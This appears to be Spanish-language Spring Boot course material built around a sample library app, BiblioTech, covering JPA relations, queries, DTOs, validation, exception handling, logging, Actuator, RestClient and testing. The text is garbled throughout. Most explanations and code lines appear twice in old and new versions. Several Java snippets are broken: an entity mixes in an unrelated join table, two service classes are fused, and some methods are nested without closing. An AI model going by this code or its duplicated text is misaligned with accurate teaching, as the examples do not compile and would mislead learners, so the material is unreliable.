import java.util.HashSet;
import java.util.Set;
// Entidad Categoria (ej. "Ciencia Ficción", "Arquitectura Software", "Bases de Datos")@Entity@Table(name = "categorias")
@Getter@Setterpublic classCategoria {
@Id@GeneratedValue(strategy = GenerationType.IDENTITY)
privateLong id;
privateString titulo;
@Column(nullable = false, unique = true, length = 50)
privateString nombre;
// Lado propietario que define la tabla asociativa física en base de datos@ManyToMany(cascade = { CascadeType.PERSIST, CascadeType.MERGE })
@JoinTable(
name = "curso_estudiante",
joinColumns = @JoinColumn(name = "curso_id"),
inverseJoinColumns = @JoinColumn(name = "estudiante_id")
)
privateSet<Estudiante> estudiantes = newHashSet<>();
}
// Lado inverso: mappedBy apunta al atributo 'categorias' en Libro@ManyToMany(mappedBy = "categorias")
privateSet<Libro> libros = newHashSet<>();
}
// En la entidad Libro: Lado propietario que declara la tabla física 'libros_categorias'@ManyToMany(cascade = { CascadeType.PERSIST, CascadeType.MERGE })
@JoinTable(
name = "libros_categorias",
joinColumns = @JoinColumn(name = "libro_id"),
inverseJoinColumns = @JoinColumn(name = "categoria_id")
)
privateSet<Categoria> categorias = newHashSet<>();
9.3 Consultas contra la Base de Datos: JPQL, SQL Nativo y Criteria API
Hibernate y Spring Data proporcionan tres mecanismos complementarios para ejecutar consultas contra la base de datos:
JPQL (Java Persistence Query Language) / HQL: Consulta orientada a objetos que opera sobre nombres de entidades y atributos Java en lugar de tablas y columnas SQL. Es portable entre diferentes motores de base de datos. Se parametrizan con parámetros nombrados (:param) para prevenir inyecciones SQL.
Consultas SQL Nativas (nativeQuery = true): Consultas escritas directamente en el dialecto SQL de la base de datos subyacente. Necesarias cuando se requiere aprovechar sintaxis propietaria (funciones ventana OVER(), CTEs recursivas, índices JSON de PostgreSQL).
Criteria API: API tipada y programática con CriteriaBuilder y CriteriaQuery para construir consultas dinámicas en tiempo de compilación sin concatenar cadenas, ideal para pantallas de búsqueda con filtros condicionales opcionales.
public interfaceLibroRepositoryextendsJpaRepository<Libro, Long> {
// 1. Consulta JPQL sobre entidades de dominio@Query("SELECT l FROM Libro l WHERE l.autor.nombre = :nombreAutor AND l.precio <= :precioMax")
List<Libro> buscarLibrosPorAutorYPrecio(
@Param("nombreAutor") String nombreAutor,
@Param("precioMax") BigDecimal precioMax
);
// 2. Consulta SQL Nativa para aprovechar funciones propietarias del motor@Query(value = "SELECT * FROM libros WHERE MATCH(titulo) AGAINST(:termino IN BOOLEAN MODE)", nativeQuery = true)
List<Libro> busquedaTextoCompleto(@Param("termino") String termino);
// 3. Métodos derivados de Spring Data (generan JPQL automáticamente)List<Libro> findByTituloContainingIgnoreCase(String palabra);
}
9.4 Optimización en Hibernate: Problema N+1, JOIN FETCH y Caché L1/L2
El rendimiento de una aplicación empresarial con Hibernate depende de mitigar los costes de I/O de base de datos mediante técnicas de optimización especializadas:
El Problema N+1 Queries: Se produce al consultar una lista de N entidades padre (1 consulta) y, al iterar sobre sus colecciones relacionadas perezosas (LAZY), Hibernate emite N consultas SQL individuales adicionales. Si hay 1.000 autores, se ejecutan 1.001 consultas.
Solución 1 — JOIN FETCH en JPQL:
Fuerza a Hibernate a traer en una única sentencia SQL la entidad y sus asociaciones relacionadas mediante un INNER JOIN o LEFT JOIN:
@Query("SELECT a FROM Autor a JOIN FETCH a.libros WHERE a.activo = true")
List<Autor> findAllConLibros();
Solución 2 — @EntityGraph:
Permite redefinir dinámicamente el plan de carga de atributos a nivel de método de repositorio sin alterar las anotaciones fijas de la entidad:
Caché de Primer Nivel (L1 - Sesión):
Integrada y siempre activa a nivel del EntityManager / transacción actual. Si en la misma transacción se solicita el mismo ID en múltiples ocasiones, Hibernate recupera la instancia de memoria sin emitir sentencias SQL adicionales.
Caché de Segundo Nivel (L2):
Caché compartida a través de todos los EntityManager de la aplicación (o distribuida entre réplicas con Redis o Ehcache). Se activa con @Cacheable y configurando spring.jpa.properties.hibernate.cache.use_second_level_cache=true para entidades leídas frecuentemente y poco modificadas (ej. países, categorías).
Procesamiento por Lotes (Batch Fetching / Batch Inserts):
Configurar spring.jpa.properties.hibernate.jdbc.batch_size=30 agrupa inserciones y actualizaciones en bloques para reducir roundtrips de red, y @BatchSize(size = 25) agrupa consultas de colecciones secundarias mediante cláusulas IN (?, ?, ...).
Tema 10 — La Filosofía del Patrón DTO (Data Transfer Object)
Exponer directamente entidades JPA en endpoints REST es un antipatrón grave que compromete la seguridad y degrada el rendimiento. Este tema enseña a implementar el patrón DTO para definir contratos de entrada y salida desacoplados de la base de datos, aprovechando la inmutabilidad y concisión de los Java Records.
¿Por qué no podemos devolver directamente la entidad Libro o Usuario que nos da la base de datos?
La Cocina vs El Menú: La entidad JPA es la cocina y el almacén privado del restaurante (ingredientes crudos, recetas secretas, costes internos). El DTO (Data Transfer Object) es el menú plastificado que le entregas al comensal en la mesa: solo muestra los platos que puede pedir y la información que le interesa ver.
Peligro de Vulnerabilidad (Mass Assignment): Si expones la entidad directamente en un endpoint POST o PUT, un atacante podría enviar un JSON con {"precio": 0.0, "version": 999} y JPA lo guardaría directamente en tu base de datos sobreescribiendo valores críticos.
Peligro de Fuga de Información: Si la entidad Usuario tiene un campo passwordHash, devolver la entidad a través de la API enviará ese hash al navegador en texto plano.
Protección contra Bucles Infinitos: Como viste en la Sección 3.3, las entidades bidireccionales (`Autor` ↔ `Libro`) provocan que Jackson entre en una espiral sin fin al intentar serializar a JSON. Los DTOs cortan de raíz la recursión.
10.1 Riesgos de Exponer Entidades JPA Directamente
1. Fuga de seguridad: Exposición involuntaria de campos internos (contraseñas hasheadas, tokens de reseteo, marcas de auditoría de borrado lógico).
2. Bucles infinitos en serialización JSON: Causa común de StackOverflowError en relaciones bidireccionales.
3. Acoplamiento destructivo: Cambiar una tabla de la BBDD rompe el contrato JSON de las aplicaciones cliente.
10.2 Implementación de DTOs Inmutables con Java Records
La solución estándar es usar DTOs (preferiblemente Records en Java moderno) que desacoplan el contrato exterior del esquema relacional interno:
// Lo que el cliente envía para crear un libropublic recordLibroRequestDTO(
String titulo,
String isbn,
BigDecimal precio,
Long autorId
) {}
// Lo que la API devuelve (exclusivamente los datos públicos requeridos)public recordLibroResponseDTO(
Long id,
String titulo,
BigDecimal precio,
String nombreAutor
) {}
Bloque 4: Calidad, Perfiles y Operaciones

Figura 5: Contenido del Bloque 4 — Validaciones de entrada, manejo global de errores y excepciones, sistema de logs, perfiles de entorno y documentación de APIs.
Objetivos de Aprendizaje — Bloque 4
Validar DTOs con Bean Validation (@NotNull, @NotBlank, @Size, @Email, @Valid).Crear un @RestControllerAdvice para capturar excepciones globalmente.Utilizar SLF4J con @Slf4j y evitar System.out.println en producción.Configurar perfiles de entorno (application-dev vs application-prod).Documentar la API con Springdoc OpenAPI y explorar Swagger UI.
🛡️ Conceptos Clave del Bloque 4 — Calidad, Perfiles y Operaciones
Concepto
Definición Técnica y Ejemplo Práctico
Validaciones Declarativas (Bean Validation)
Especificación de validación mediante metadatos (@NotNull, @NotBlank, @Size, @Email). Al anotar el DTO en el controlador con @Valid, Spring comprueba las reglas antes de ejecutar el método y responde con HTTP 400 si hay infracciones. Ejemplo: public record UsuarioDTO(@NotBlank(message = "Email obligatorio") @Email String email) {}.
Especificación de reglas de validación mediante metadatos en el DTO (@NotNull, @NotBlank, @Size, @Positive). Al anotar el payload en el controlador con @Valid, Spring ejecuta la inspección antes de entrar al servicio y devuelve 400 Bad Request ante cualquier incumplimiento. Ejemplo en BiblioTech: public record LibroRequestDTO(@NotBlank(message = "El ISBN es obligatorio") String isbn, @Positive(message = "El precio debe ser positivo") BigDecimal precio) {}.
Manejo Global de Excepciones (@RestControllerAdvice)
Interceptor transversal de errores que centraliza la captura de excepciones no controladas en todos los controladores, formateando la salida bajo el estándar RFC 7807 (ProblemDetail) en lugar de exponer trazas internas de la JVM. Ejemplo: @ExceptionHandler(EntidadNoEncontradaException.class) public ProblemDetail handle(...) { ... } (devuelve 404 Not Found con estructura homogénea).
Interceptor transversal que centraliza la captura de excepciones de negocio y validación para toda la API, convirtiéndolas en respuestas JSON normalizadas (estándar RFC 7807 ProblemDetail) en lugar de filtrar trazas de error internas. Ejemplo en BiblioTech: @ExceptionHandler(LibroNotFoundException.class) public ResponseEntity<ErrorResponse> handleNotFound(...) { ... } (retorna 404 Not Found limpio con timestamp y ruta).
Observabilidad y Logging con SLF4J / Logback
Sistema de trazas estructuradas con niveles de severidad (TRACE, DEBUG, INFO, WARN, ERROR). Emplea plantillas parametrizadas con llaves {} que evitan la concatenación costosa de cadenas en memoria. Ejemplo: log.info("Factura #{} emitida para cliente: {}", facturaId, clienteId); (nunca usar System.out.println en producción).
Sistema de trazas estructuradas con niveles de severidad (TRACE, DEBUG, INFO, WARN, ERROR). Emplea plantillas parametrizadas con llaves {} para evitar concatenaciones innecesarias de memoria. Ejemplo en BiblioTech: log.info("Libro registrado con éxito en BiblioTech: id={}, isbn={}", libro.getId(), libro.getIsbn()); (nunca usar System.out.println en producción).
Perfiles de Configuración (application-{profile}.properties)
Aislamiento estricto de parámetros de infraestructura según el entorno (desarrollo local dev, testing test, producción prod), gobernado por spring.profiles.active. Ejemplo: En dev se utiliza base de datos en memoria H2 con consola web; en prod se conecta a PostgreSQL en la nube con credenciales inyectadas por variables de entorno.
Aislamiento estricto de configuraciones de infraestructura según el entorno (dev, test, prod), activable mediante spring.profiles.active. Ejemplo en BiblioTech: En dev se utiliza base de datos en memoria H2 con consola visual web; en prod se conecta a PostgreSQL gestionado en la nube con credenciales seguras por variables de entorno.
Documentación Interactiva OpenAPI / Swagger
Generación automática de contratos de API REST (especificación OpenAPI 3.0) y consola visual Swagger UI mediante la librería springdoc-openapi, permitiendo a equipos frontend probar endpoints en vivo. Ejemplo: Acceso directo a http://localhost:8080/swagger-ui.html para inspeccionar modelos JSON, cabeceras requeridas y códigos de error.
Generación automática de contratos de API REST (OpenAPI 3.0) y portal web interactivo Swagger UI mediante la dependencia springdoc-openapi-starter-webmvc-ui, permitiendo a clientes frontend probar la API en vivo. Ejemplo en BiblioTech: Navegar a http://localhost:8080/swagger-ui.html para inspeccionar el catálogo /api/v1/libros, probar payloads y validar esquemas de respuesta.
Monitoreo con Spring Boot Actuator
Conjunto de endpoints HTTP listos para producción que exponen la salud operativa (/actuator/health), métricas de hardware/JVM (/actuator/metrics) e información de despliegue consumible por Kubernetes o Prometheus. Ejemplo: GET /actuator/health devuelve {"status":"UP"} si la conexión a base de datos y disco están operativas.
Colección de endpoints HTTP listos para producción para telemetría operativa: estado de salud (/actuator/health), métricas de hardware/JVM (/actuator/metrics) y metadatos de compilación (/actuator/info). Ejemplo en BiblioTech: GET /actuator/health confirma si el pool de conexiones a la base de datos de libros está en estado UP.
Consumo de APIs con RestClient
Cliente HTTP moderno y tipado introducido en Spring Boot 3 con interfaz fluida. Soporta cabeceras declarativas, serialización/deserialización automática de payloads JSON y tratamiento robusto de errores de red. Ejemplo: restClient.get().uri("/api/cambio").retrieve().body(CambioDTO.class);.
Cliente HTTP síncrono moderno y fluido introducido en Spring Boot 3 para consultar microservicios o APIs de terceros de forma tipada, con soporte declarativo de cabeceras y manejo de errores HTTP. Ejemplo en BiblioTech: restClient.get().uri("/books/{isbn}", isbn).retrieve().body(MetadatosLibroDTO.class); (consulta a OpenLibrary para enriquecer la ficha del libro).
Capacidades Específicas (@ConfigurationProperties y Application Events)
Mecanismos avanzados del contenedor Spring: @ConfigurationProperties para vincular propiedades tipadas e inmutables validadas con Bean Validation, y ApplicationEventPublisher / @EventListener para desacoplar flujos de negocio mediante eventos internos. Ejemplo en BiblioTech: Publicar un LibroPrestadoEvent al confirmar un préstamo para que el servicio de email notifique al usuario sin que el servicio de préstamos dependa directamente de él.
Una API profesional debe garantizar que ninguna petición con datos corruptos alcance la capa de negocio y que los errores se reporten con un formato consistente. Aquí aprenderás a validar payloads con Bean Validation (@Valid) y a centralizar el tratamiento de excepciones mediante @RestControllerAdvice para generar respuestas legibles con códigos HTTP semánticos.
💡Intuición para Principiantes: ¿Por qué manejar errores de forma global? (La aduana del aeropuerto y el embajador de reclamos)
Cuando estás empezando a programar backend, es muy tentador pensar: "Si algo falla, capturo la excepción con un bloque try-catch en el método del controlador, o simplemente dejo que Java lance el error". Sin embargo, en una aplicación real de producción como BiblioTech, esto causa dos problemas graves:
Fugas de seguridad y confusión para el cliente: Si no capturas una excepción, Spring Boot responde con un 500 Internal Server Error y una traza kilométrica (Stack Trace) que expone los nombres de tus archivos internos, clases y consultas SQL. Para el usuario final o la app frontend, esto es ininteligible y supone un riesgo evidente de ciberseguridad.
Duplicación masiva de código: Si tienes 50 endpoints y en todos repites try { ... } catch (Exception e) { ... }, tu código se vuelve farragoso, difícil de leer e imposible de mantener.
La solución en dos líneas defensivas:
1. Bean Validation (@Valid) — El escáner de aduanas: Antes de que la petición toque tu lógica de negocio, Spring valida las anotaciones del DTO (que el ISBN no esté vacío con @NotBlank, que el precio no sea negativo con @Positive). Si algo no cumple, se rechaza al instante con 400 Bad Request detallando campo a campo qué corregir.
2. @RestControllerAdvice — El embajador de incidencias: Si en el servicio se produce un error de negocio (por ejemplo, buscar un libro inexistente y lanzar LibroNotFoundException), no necesitas try-catch en el controlador. La excepción sube de forma natural y este componente centralizado la atrapa para devolver un JSON limpio, estandarizado (siguiendo el estándar RFC 7807 Problem Details) con el código HTTP semántico correspondiente (404 Not Found).
11.1 Centralización con @RestControllerAdvice
@RestControllerAdvice actúa como un interceptor global para todas las excepciones del controlador, unificando el formato de respuesta de error en toda la API.
@RestControllerAdvice actúa como un interceptor global para todas las excepciones del controlador, unificando el formato de respuesta de error en toda la API de BiblioTech.
11.2 Gestión de Recursos No Encontrados (404 Not Found)
Captura excepciones de negocio personalizadas y devuelve un DTO de error con timestamp, código 404 y URI de la petición.
Captura excepciones de negocio personalizadas como LibroNotFoundException y devuelve un DTO de error con timestamp, código 404 y URI de la petición.
11.3 Captura de Errores de Validación (400 Bad Request)
Procesa las infracciones de Bean Validation (@NotNull, @NotBlank, etc.) mapeando cada campo a su mensaje de error explicativo.
Procesa las infracciones de Bean Validation (@NotNull, @NotBlank, @Positive, etc.) mapeando cada campo a su mensaje de error explicativo para la aplicación cliente.
package com.accenture.demo.exception;
package com.bibliotech.exception;
import org.springframework.http.*;
import org.springframework.web.bind.MethodArgumentNotValidException;
import org.springframework.web.bind.annotation.*;
import jakarta.servlet.http.HttpServletRequest;
import java.time.Instant;
import java.util.*;
// 1. Excepción de dominio personalizada para BiblioTechpublic classLibroNotFoundExceptionextendsRuntimeException {
publicLibroNotFoundException(Long id) {
super("El libro con ID " + id + " no fue encontrado en el catálogo de BiblioTech.");
}
}
// 2. Interceptor global de errores (@RestControllerAdvice)@RestControllerAdvicepublic classGlobalExceptionHandler {
public recordErrorResponse(Instant timestamp, int status, String error, String mensaje, String path) {}
@ExceptionHandler(RecursoNoEncontradoException.class)
publicResponseEntity<ErrorResponse> handleNotFound(RecursoNoEncontradoException ex, HttpServletRequest req) {
// Captura errores de negocio: 404 Not Found@ExceptionHandler(LibroNotFoundException.class)
publicResponseEntity<ErrorResponse> handleLibroNotFound(LibroNotFoundException ex, HttpServletRequest req) {
ErrorResponse err = newErrorResponse(Instant.now(), 404, "Not Found", ex.getMessage(), req.getRequestURI());
returnResponseEntity.status(HttpStatus.NOT_FOUND).body(err);
}
// Captura fallos en Bean Validation (@Valid): 400 Bad Request@ExceptionHandler(MethodArgumentNotValidException.class)
publicResponseEntity<Map<String, Object>> handleValidation(MethodArgumentNotValidException ex) {
Map<String, String> errores = newHashMap<>();
ex.getBindingResult().getFieldErrors().forEach(err -> errores.put(err.getField(), err.getDefaultMessage()));
Map<String, Object> body = newHashMap<>();
body.put("timestamp", Instant.now());
body.put("status", 400);
body.put("error", "Bad Request - Validación Fallida");
body.put("error", "Bad Request - Validación Fallida en Payload");
body.put("errores", errores);
returnResponseEntity.badRequest().body(body);
}
}
Tema 12 — Logging, Perfiles y Documentación OpenAPI
Operar una aplicación en producción exige trazabilidad, documentación interactiva y monitorización continua. Este tema cubre la jerarquía de logs con SLF4J, perfiles de entorno (dev, prod), documentación OpenAPI con Swagger, métricas y salud del sistema con Spring Boot Actuator, y el consumo de APIs REST externas mediante RestClient.
💡Intuición para Principiantes: Logs, Perfiles y Actuator (La caja negra y el cuadro de mandos del avión)
Cuando estás aprendiendo, lo normal para ver qué pasa en tu programa es escribir System.out.println("Llegó aquí"). En un entorno profesional como BiblioTech, esto es una mala práctica crítica por tres razones:
Frena el servidor: System.out.println es síncrono y bloquea el hilo de ejecución hasta que la terminal del sistema operativo termina de pintar la letra. Con miles de usuarios concurrentes, colapsaría la CPU.
No se puede apagar ni filtrar: En producción no quieres ver millones de mensajes irrelevantes, pero tampoco quieres borrar el código de prueba a mano.
Falta de contexto: No incluye marca de tiempo (timestamp), ni el hilo (thread), ni el nivel de gravedad.
La escala de severidad de SLF4J:
• ERROR: Algo ha fallado gravemente (la base de datos se cayó). Alerta a los ingenieros de guardia.
• WARN: Situación sospechosa o no deseada, pero el servidor sigue funcionando (un usuario con multas intenta pedir un libro).
• INFO: Hitos clave del negocio ("Servidor arrancado en puerto 8080", "Libro #12 prestado con éxito").
• DEBUG: Detalles técnicos para depurar en local ("Calculando penalización por 3 días de demora"). En producción se apagan con una sola línea en application.properties sin tocar el código.
• TRACE: Micro-detalles forenses (ej. valores exactos de los parámetros en cada consulta SQL).
¿Y los Perfiles y Actuator?
• Perfiles (dev vs prod): El mismo código se viste según la ocasión. En dev arranca en 1 segundo con base de datos H2 volátil en RAM. En prod conecta de forma segura a PostgreSQL en la nube.
• Actuator: Son los sensores médicos del servidor. Kubernetes consulta /actuator/health para saber si el contenedor sigue con vida o si debe reiniciar la máquina.
12.1 Jerarquía de Logs y Uso de @Slf4j
Niveles de Log estándar: TRACE < DEBUG < INFO < WARN < ERROR. Se recomienda Lombok @Slf4j y parámetros estructurados con llaves {} para evitar concatenaciones innecesarias de cadenas.
Niveles de Log estándar: TRACE < DEBUG < INFO < WARN < ERROR. Se recomienda Lombok @Slf4j y parámetros estructurados con llaves {} para evitar concatenaciones innecesarias de cadenas en la plataforma BiblioTech:
@Slf4j
package com.bibliotech.service;
import lombok.extern.slf4j.Slf4j;
import org.springframework.stereotype.Service;
@Slf4j@Servicepublic classPagoService {
public voidprocesar(Long id, Double monto) {
log.debug("Iniciando cálculo para transacción: id={}", id);
if (monto <= 0) {
log.warn("Intento de procesar monto no positivo: {}", monto);
public classPrestamoLibroService {
public voidprocesarPrestamo(Long libroId, Long usuarioId) {
log.debug("Iniciando verificación de disponibilidad: libroId={}, usuarioId={}", libroId, usuarioId);
if (tieneSancionesPendientes(usuarioId)) {
log.warn("Usuario sancionado intenta solicitar libro: usuarioId={}, libroId={}", usuarioId, libroId);
}
// log.info("Pago procesado con éxito id={}", id);// Lógica del préstamo en el catálogo BiblioTech...
log.info("Préstamo registrado exitosamente en BiblioTech: libroId={}, usuarioId={}", libroId, usuarioId);
}
private booleantieneSancionesPendientes(Long usuarioId) {
return false;
}
}
12.2 Perfiles de Configuración y Documentación con Swagger
Permite alternar propiedades por entorno (dev, test, prod) con spring.profiles.active y exponer automáticamente la documentación interactiva OpenAPI en /swagger-ui/index.html.
Permite alternar propiedades por entorno (dev, test, prod) con spring.profiles.active y exponer automáticamente la documentación interactiva OpenAPI de BiblioTech en /swagger-ui/index.html.
12.3 Monitoreo y Observabilidad con Spring Boot Actuator
El módulo spring-boot-starter-actuator expone endpoints HTTP listos para producción para auditar la salud, métricas de rendimiento y estado del servicio:
/actuator/health: Estado general del sistema (UP, DOWN). Verifica la conectividad con la base de datos, espacio libre en disco y servicios externos.
/actuator/health: Estado general del sistema (UP, DOWN). Verifica la conectividad con la base de datos de BiblioTech, espacio libre en disco y servicios externos.
/actuator/metrics: Métricas detalladas de la JVM (uso de heap memory, hilos activos, Garbage Collector) y rendimiento HTTP (http.server.requests).
/actuator/info: Metadatos de compilación (versión git, build timestamp y descripción del artefacto).
/actuator/prometheus: Formato scrapeable por Prometheus para integración con dashboards en Grafana.
# application.yml: Exposición controlada de endpoints de telemetríamanagement:
endpoints:
web:
exposure:
include: "health,info,metrics,prometheus"endpoint:
health:
show-details: always
12.4 Consumo de Servicios Web Externos con RestClient (Spring Boot 3)
A partir de Spring Boot 3 y Spring Framework 6, RestClient es el cliente HTTP síncrono moderno que reemplaza al clásico RestTemplate, ofreciendo una API fluida y gestión declarativa de errores:
A partir de Spring Boot 3 y Spring Framework 6, RestClient es el cliente HTTP síncrono moderno que reemplaza al clásico RestTemplate, ofreciendo una API fluida y gestión declarativa de errores. En BiblioTech se utiliza para consultar metadatos bibliográficos en la API pública de OpenLibrary:
package com.accenture.demo.client;
package com.bibliotech.client;
import org.springframework.http.HttpStatusCode;
import org.springframework.stereotype.Service;
import org.springframework.web.client.RestClient;
import org.springframework.http.HttpStatusCode;
import org.springframework.stereotype.Service;
import org.springframework.web.client.RestClient;
// DTO inmutable con los metadatos devueltos por el proveedor externopublic recordMetadatosLibroDTO(String isbn, String title, int numberOfPages, String publishDate) {}
@Servicepublic classProveedorExternoClient {
public classOpenLibraryClient {
private finalRestClient restClient;
publicProveedorExternoClient(RestClient.Builder builder) {
publicOpenLibraryClient(RestClient.Builder builder) {
this.restClient = builder
.baseUrl("https://api.proveedor.com/v1")
.baseUrl("https://openlibrary.org/api")
.defaultHeader("Accept", "application/json")
.build();
}
publicCotizacionDTOobtenerCotizacion(String codigo) {
publicMetadatosLibroDTOconsultarPorIsbn(String isbn) {
return restClient.get()
.uri("/precios/{codigo}", codigo)
.uri("/books?bibkeys=ISBN:{isbn}&format=json&jscmd=data", isbn)
.retrieve()
.onStatus(HttpStatusCode::is4xxClientError, (req, res) -> {
throw newRecursoExternoException("Código no encontrado en el proveedor externo");
throw newLibroExternoNoEncontradoException("ISBN no registrado en OpenLibrary: " + isbn);
})
.onStatus(HttpStatusCode::is5xxServerError, (req, res) -> {
throw newServicioExternoCaidoException("Servicio de cotización temporalmente inaccesible");
throw newServicioExternoCaidoException("El servicio de OpenLibrary se encuentra temporalmente caído.");
})
.body(CotizacionDTO.class);
.body(MetadatosLibroDTO.class);
}
}
12.5 Capacidades Específicas del Ecosistema Spring: Externalización (@Value, @ConfigurationProperties) y Eventos Desacoplados
Spring Boot proporciona capacidades avanzadas del contenedor IoC para resolver dos necesidades arquitectónicas críticas en entornos de producción: la gestión tipada y validada de configuración y la comunicación desacoplada orientada a eventos en memoria:
1. Inyección y Externalización de Propiedades: @Value vs @ConfigurationProperties
Anotación @Value: Adecuada para inyecciones puntuales de propiedades simples o expresiones SpEL (Spring Expression Language):
@Value("${bibliotech.prestamo.dias-maximos:14}")
private int diasMaximosPrestamo;
Anotación @ConfigurationProperties: El estándar recomendado para configuraciones jerárquicas y estructuradas. Proporciona seguridad de tipos en tiempo de compilación (type-safety), autocompletado en el IDE y soporte nativo de Bean Validation (@Validated):
package com.bibliotech.config;
import jakarta.validation.constraints.Min;
import jakarta.validation.constraints.NotBlank;
import lombok.Getter;
import lombok.Setter;
import org.springframework.boot.context.properties.ConfigurationProperties;
import org.springframework.context.annotation.Configuration;
import org.springframework.validation.annotation.Validated;
@Configuration@ConfigurationProperties(prefix = "bibliotech.politicas")
@Validated@Getter@Setterpublic classBiblioTechProperties {
@Min(value = 1, message = "El límite de días debe ser al menos 1")
private int diasPrestamoPorDefecto = 14;
@Min(value = 1, message = "Un usuario debe poder solicitar al menos 1 libro")
private int maxLibrosSimultaneos = 5;
@NotBlankprivate String emailNotificaciones = "prestamos@bibliotech.com";
}
2. Mecanismo de Eventos de Aplicación (Application Events)
El patrón Publisher-Subscriber desacopla componentes que deben reaccionar ante cambios de estado de negocio sin mantener referencias directas entre sí. Cuando se confirma un préstamo, el servicio de préstamos no conoce ni invoca al servicio de correos ni al de analítica; simplemente emite un evento inmutable en el ApplicationContext:
package com.bibliotech.event;
import java.time.LocalDateTime;
// 1. El Evento de Dominio inmutable modelado con un Record Javapublic recordLibroPrestadoEvent(Long libroId, Long usuarioId, LocalDateTime fecha) {}
package com.bibliotech.service;
import com.bibliotech.event.LibroPrestadoEvent;
import lombok.extern.slf4j.Slf4j;
import org.springframework.context.ApplicationEventPublisher;
import org.springframework.context.event.EventListener;
import org.springframework.stereotype.Service;
import java.time.LocalDateTime;
// 2. El Publicador: Emite el evento sin acoplarse a los receptores@Servicepublic classPrestamoService {
private finalApplicationEventPublisher eventPublisher;
publicPrestamoService(ApplicationEventPublisher eventPublisher) {
this.eventPublisher = eventPublisher;
}
public voidconfirmarPrestamo(Long libroId, Long usuarioId) {
// Lógica de persistencia del préstamo en base de datos...// Publicación del evento en el bus de Spring Boot:
eventPublisher.publishEvent(newLibroPrestadoEvent(libroId, usuarioId, LocalDateTime.now()));
}
}
// 3. El Suscriptor: Escucha reactivamente el evento para enviar el email@Slf4j@Servicepublic classNotificacionEmailListener {
@EventListenerpublic voidonLibroPrestado(LibroPrestadoEvent event) {
log.info("Enviando correo al usuario {} por el préstamo del libro {}",
event.usuarioId(), event.libroId());
}
}
Bloque 5: Testing Automatizado

Figura 6: Contenido del Bloque 5 — Pruebas unitarias con JUnit y Mockito, e integración con Spring Boot Test.
Objetivos de Aprendizaje — Bloque 5
Aplicar la Pirámide de Tests (muchos tests unitarios, menos de integración).Crear pruebas unitarias con JUnit 5 y aislar con @Mock y @InjectMocks de Mockito.Usar when().thenReturn() y verify() para verificar interacciones.Escribir tests de integración web con @WebMvcTest y MockMvc.
🧪 Conceptos Clave del Bloque 5 — Testing Automatizado
Concepto
Definición Técnica y Ejemplo Práctico
Pirámide de Testing
Estrategia de distribución de pruebas: base masiva de tests unitarios rápidos y baratos; capa intermedia de tests de integración entre componentes/BD; y vértice reducido de tests E2E por su lentitud y fragilidad. Ejemplo: 70% unitarios (milisegundos con Mockito) | 20% integración (@WebMvcTest) | 10% integrales (@SpringBootTest).
Pruebas Unitarias con JUnit 5 y Mockito
Validación aislada de una única clase en milisegundos sin levantar Spring. @Mock simula las dependencias externas y @InjectMocks las inyecta automáticamente en la clase a testear. Ejemplo: @ExtendWith(MockitoExtension.class) class ServicioTest { @Mock Repo repo; @InjectMocks Servicio serv; }.
Stubbing y Verificación (when / verify)
Control y comprobación de interacciones con dobles de prueba: when(...).thenReturn(...) programa el retorno simulado; verify(mock, times(1)).metodo(...) certifica que el colaborador fue invocado con los argumentos esperados. Ejemplo: when(repo.findById(1L)).thenReturn(Optional.of(libro)); serv.borrar(1L); verify(repo).deleteById(1L);.
Pruebas de Integración Web (@WebMvcTest y MockMvc)
Prueba focalizada (*Slice Test*) que levanta únicamente la capa web de Spring MVC sin base de datos. MockMvc simula peticiones HTTP de red y valida el JSON de respuesta con jsonPath. Ejemplo: mockMvc.perform(get("/api/libros/1")).andExpect(status().isOk()).andExpect(jsonPath("$.titulo").value("Clean Code"));.
Pruebas Integrales (@SpringBootTest)
Prueba que arranca el ApplicationContext completo con todos los beans y configuraciones de infraestructura, validando el flujo de extremo a extremo contra una base de datos de test (H2 o Testcontainers). Ejemplo: @SpringBootTest @AutoConfigureMockMvc class PedidoIntegrationTest { @Autowired MockMvc mockMvc; }.
Ejemplo en BiblioTech: @SpringBootTest @AutoConfigureMockMvc class LibroIntegrationTest { @Autowired MockMvc mockMvc; }.
Depuración y Diagnóstico Profesional
Metodologías de resolución de defectos mediante el debugger del IDE: puntos de interrupción condicionales (conditional breakpoints), inspección de variables en la pila de llamadas y evaluación de expresiones en caliente. Ejemplo: Configurar condición producto.getStock() < 0 para detener la ejecución solo cuando se detecte una inconsistencia de stock.
Ejemplo en BiblioTech: Configurar condición libro.getPrecio().compareTo(BigDecimal.ZERO) < 0 para pausar el depurador solo si se procesa un libro con precio inconsistente.
Las pruebas unitarias garantizan que cada componente individual de la lógica de negocio funcione correctamente de forma aislada y sin dependencias externas lentas. En este tema dominarás el ciclo de vida de JUnit 5, las aserciones semánticas y el uso de Mockito (when, verify, mocks e inyecciones simuladas) para verificar casos de éxito y límites de error.
💡Intuición para Principiantes: ¿Cómo testear sin romper nada? (El simulador de vuelo y los dobles de riesgo)
Cuando estás aprendiendo a programar, hacer tests automáticos puede parecer una pérdida de tiempo: "¿Por qué escribir código para probar código si puedo probarlo yo mismo abriendo Postman o el navegador?". La respuesta es que cuando tu sistema crece a decenas de entidades y cientos de reglas de negocio, es humanamente imposible probar a mano toda la aplicación cada vez que tocas una línea. Un test automatizado tarda 5 milisegundos y te da la certeza de que tu cambio no ha roto nada más.
La pirámide de tests explicada de forma sencilla:
Test Unitario con Mockito (La base de la pirámide — 70%): Quieres probar la lógica de LibroService (por ejemplo, cómo calcula si un libro está disponible). Pero LibroService depende de LibroRepository, que a su vez necesita una base de datos real. Conectar con la base de datos es lento y puede fallar por problemas de red. ¿La solución? Usar un Mock (un doble de acción o simulador). Con @Mock creamos un repositorio ficticio y con when(repo.findById(1L)).thenReturn(...) le ordenamos: "Cuando el servicio te pida el libro 1, devuélvele este libro falso". Así probamos el servicio en 2 milisegundos sin tocar la base de datos.
Test de Integración Web con @WebMvcTest (20%): Prueba exclusivamente la capa del controlador y la red HTTP. Simula una llamada web real con MockMvc y comprueba si la API responde con código HTTP 200 y el JSON esperado con jsonPath, sin necesidad de levantar el servidor Tomcat completo.
Test End-to-End con @SpringBootTest (10%): El ensayo general completo. Arranca Spring Boot al completo, conecta a una base de datos en memoria y verifica el flujo íntegro desde la petición HTTP hasta la persistencia en tabla.
13.1 Aislamiento con @Mock y @InjectMocks
@Mock genera un doble simulado del repositorio sin tocar la base de datos, y @InjectMocks inyecta los mocks automáticamente en la instancia real del servicio bajo prueba.
